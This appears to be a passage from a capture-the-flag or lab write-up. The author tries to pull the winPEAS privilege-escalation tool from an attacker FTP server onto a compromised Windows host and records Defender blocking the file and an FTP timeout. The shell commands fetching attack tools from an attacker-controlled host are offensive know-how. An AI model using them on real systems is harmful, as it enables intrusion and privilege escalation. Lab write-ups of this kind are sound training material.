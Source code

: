 # FTP download failure

As mentioned I tried the [approach here](https://ivanitlearning.wordpress.com/2020/07/05/rce-pe-experiments-with-server-2019-and-defender/).

```shell
PS C:\Users\tyler\Temp> echo open 10.10.14.78 > commands.txt
PS C:\Users\tyler\Temp> echo USER anonymous >> commands.txt
PS C:\Users\tyler\Temp> echo anything >> commands.txt
PS C:\Users\tyler\Temp> echo binary >> commands.txt
PS C:\Users\tyler\Temp> echo GET winPEASany.exe >> commands.txt
PS C:\Users\tyler\Temp> echo quit >> commands.txt
PS C:\Users\tyler\Temp> type commands.txt
PS C:\Users\tyler\Temp> type : Operation did not complete successfully because the file contains a virus or potentially unwanted software.

At line:1 char:1
+ type commands.txt
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ReadError: (C:\Users\tyler\Temp\commands.txt:String) [Get-Content], IOException
    + FullyQualifiedErrorId : GetContentReaderIOError,Microsoft.PowerShell.Commands.GetContentCommand
 

PS C:\Users\tyler\Temp> dir


    Directory: C:\Users\tyler\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/10/2020  11:57 PM            164 commands.txt    
```

Somehow Defender detected it as a virus. Renaming it to txt made this problem go away but I encountered another one where it says `Active data channel timed out`

```shell
PS C:\Users\tyler\Temp> echo 'open 10.10.14.78' > commands.txt
PS C:\Users\tyler\Temp> echo 'USER anonymous' >> commands.txt
PS C:\Users\tyler\Temp> echo anything >> commands.txt
PS C:\Users\tyler\Temp> echo binary >> commands.txt
PS C:\Users\tyler\Temp> echo 'GET something.txt' >> commands.txt
PS C:\Users\tyler\Temp> echo quit >> commands.txt
PS C:\Users\tyler\Temp> type commands.txt
open 10.10.14.78
USER anonymous
anything
binary
GET something.txt
quit
PS C:\Users\tyler\Temp> ftp -v -n -s:commands.txt
open 10.10.14.78
Connected to 10.10.14.78.
220 pyftpdlib 1.2.0 ready.
530 Log in with USER and PASS first.

USER anonymous
331 Username ok, send password.

230 Login successful.
binary
200 Type set to: Binary.
GET something.txt
421 Active data channel timed out.
quit
221 Goodbye.
PS C:\Users\tyler\Temp>
```

Some [Googling found](https://stackoverflow.com/questions/42495442/421-active-data-channel-timed-out-with-ftp-client-connection-from-azure-vm-fr) it was due to Windows FTP clients supporting only active FTP protocol only which means the FTP server (Kali) needs to be able to connect back via another port. If this is blocked by Windows Firewall, FTP transfer won't work.